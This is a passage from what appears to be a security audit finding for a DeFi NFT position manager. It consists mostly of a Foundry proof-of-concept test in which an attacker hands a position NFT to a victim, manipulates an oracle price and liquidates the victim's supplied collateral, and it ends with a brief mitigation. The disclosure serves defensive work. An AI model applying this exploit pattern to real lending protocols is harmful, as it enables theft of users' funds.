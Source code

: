     // 4. Mallory transfers the NFT to Alice
    nftPositionManager.transferFrom(mallory, alice, malloryTokenId);

    vm.stopPrank();

    // 5. Alice supplies tokens, unknowingly using Mallory's position
    vm.startPrank(alice);
    tokenA.approve(address(nftPositionManager), aliceSupplyAmount);
    nftPositionManager.supply(INFTPositionManager.AssetOperationParams({
        asset: address(tokenA),
        target: alice,
        amount: aliceSupplyAmount,
        tokenId: malloryTokenId,
        data: DataTypes.ExtraData({hookData: "", interestRateData: ""})
    }));
    vm.stopPrank();

    // 6. Mallory manipulates the price to cause liquidation
    vm.prank(address(this)); // Assuming this contract has permission to manipulate the oracle
    maliciousOracle.manipulatePrice(1e20); // Increase price

    // 7. Mallory liquidates the position
    vm.startPrank(mallory);
    maliciousToken.approve(address(maliciousPool), malloryBorrowAmount * 2);
    
    // Calculate the position ID
    bytes32 positionId = getPositionId(address(nftPositionManager),2);
    uint256 balanceBefore = tokenA.balanceOf(mallory);
    console99.log(tokenA.balanceOf(mallory));
    // Call the liquidate function on the Pool contract
    maliciousPool.liquidate(
        address(tokenA), // collateral asset
        address(maliciousToken), // debt asset
        positionId,
        malloryBorrowAmount,
        DataTypes.ExtraData({hookData: "", interestRateData: ""})
    );
    uint256 balanceAfter = tokenA.balanceOf(mallory);
    vm.stopPrank();
    console99.log(tokenA.balanceOf(mallory));
    // Verify the attack results
    assertGt(balanceAfter,balanceBefore);
    assertGt(tokenA.balanceOf(mallory), 0, "Mallory should have gained some of Alice's collateral");
    assertLt(tokenA.balanceOf(alice), aliceSupplyAmount, "Alice should have lost some of her collateral");
    assertEq(nftPositionManager.ownerOf(malloryTokenId), alice, "Alice should still own the NFT, but it's now worth less");
}

  // Helper function to calculate position ID
function getPositionId(address user, uint256 index) internal pure returns (bytes32) {
  return keccak256(abi.encodePacked(user, 'index', index));
}
}
[POC.zip](https://github.com/user-attachments/files/16803199/POC.zip)
`

### Mitigation

Remove the Last Token ID feature altogether.